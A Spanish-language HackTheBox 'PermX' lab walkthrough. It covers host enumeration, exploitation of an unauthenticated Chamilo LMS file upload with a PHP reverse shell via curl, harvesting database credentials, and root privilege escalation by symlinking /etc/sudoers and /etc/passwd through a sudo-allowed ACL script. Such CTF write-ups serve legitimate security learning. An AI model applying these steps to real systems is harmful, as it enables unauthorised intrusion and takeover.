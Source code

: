 ```yaml
---
layout: default
---
```

![image](../../Imágenes%20Máquinas/PERMX.jpg)


# PERMX [HACKTHEBOX] / Easy
### (Wfuzz Hosts Scan, File Linking, Chamilo LMS Unauthenticated File Upload Vulnerability, BigUploadFile Remote Code Execution (RCE), Sudoers File Edit for Privilege Escalation using ln command)

#### - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 


# Nmap Scan

Primero, hacemos un escaneo de nmap, el cual nos encuentra 2 puertos, nos metemos en la web (puerto 80)

```bash
nmap -p- --open -sCV -sS -n -Pn -vvv [ip_víctima] -oN archivo_de_escaneo
```

![image](../zimages/Pasted_image_20241019005922.png)

Pero no nos deja, primero tenemos que meter el dominio en /etc/hosts:

![image](../zimages/Pasted_image_20241019010059.png)

# Web Enumeration

Como no encontramos nada en la web, probamos con wfuzz un par de cosas. Nos saca un subdirectorio si buscamos:

```bash
wfuzz -c -t 200 --hc=302 -w /usr/share/wordlists/subdomains-top1million-110000.txt -H "Host: FUZZ.permx.htb" http://permx.htb/
```

![image](../zimages/Pasted_image_20241019013205.png)

Si buscamos "chamilo" por la web, encontramos que hay un exploit con RCE, el cual nos dice que se puede conseguir fácilmente una RevShell. Vamos a copiarlo y ver si la máquina es vulnerable.

![image](../zimages/Pasted_image_20241019013304.png)

```bash
git clone https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc.git
```

Ejecutamos según las instrucciones:

```bash
python3 main.py -u http://lms.permx.htb -a scan 
```

Y nos sale que es vulnerable:

![image](../zimages/Pasted_image_20241019013756.png)

# Chamilo LMS Unauthenticated File Upload

Vamos a explotarlo según el exploit, que si investigamos por internet vemos que usa el siguiente payload:

```python
curl -F “bigUploadFile=@revshell.php” “http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported
```

tenemos que crear una reverse shell con php e incluirla en el curl para que se suba, después, hacemos un curl a la ubicación donde se sube el archivo:
`http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/revshell.php`

![image](../zimages/Pasted_image_20241019020204.png)

# User Flag

Si nos acordamos de la web, había un sitio donde había un login, eso significa que tiene que haber una base de datos que almacene eso. Buscando por los directorios de la web, encontramos un archivo config.php con las credenciales:

```bash
// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;
```

Vamos a conectarnos por ssh como el usuario que había en el directorio /home de la máquina (mtz):

```bash
ssh mtz@10.10.11.23
```

Tenemos la flag de user:

![image](../zimages/Pasted_image_20241019024638.png)

# Root Flag

Si buscamos por `sudo -l`, encontramos que solo podemos ejecutar como root un archivo .sh, si lo leemos vemos que lo que hace es darle permisos a un archivo. Si buscamos por internet una forma de crear un acceso directo a un archivo, de forma que esté dentro de el directorio /home/mtz, vemos que hay un comando ("ln"). Lo utilizaremos de la siguiente forma:

```bash
ln -s /etc/sudoers acceso_directo
```

![image](../zimages/Pasted_image_20241019030427.png)

Ahora vamos a ejecutar el script basándonos en los parámetros que tenemos que utilizar (user, perms, file):

```bash
sudo /opt/acl.sh mtz rwx /home/mtz/acceso_directo
```

Ahora vamos a abrir el acceso directo (/etc/sudoers) con nano, de esta forma nos abrirá el archivo de los suders con permisos de escritura, ahí pondremos a mtz como sudoer:

![image](../zimages/Pasted_image_20241019031033.png)

Si ejecutamos sudo su vemos que no nos deja:

![image](../zimages/Pasted_image_20241019031659.png)


Vamos a hacer lo mismo pero con el archivo /etc/passwd, donde editaremos la línea de "root" y quitaremos la "x" para poder ser root sin poner contraseña:

![image](../zimages/Pasted_image_20241019034004.png)

Ya somos root:

![image](../zimages/Pasted_image_20241019034036.png)


# ./ROOTED
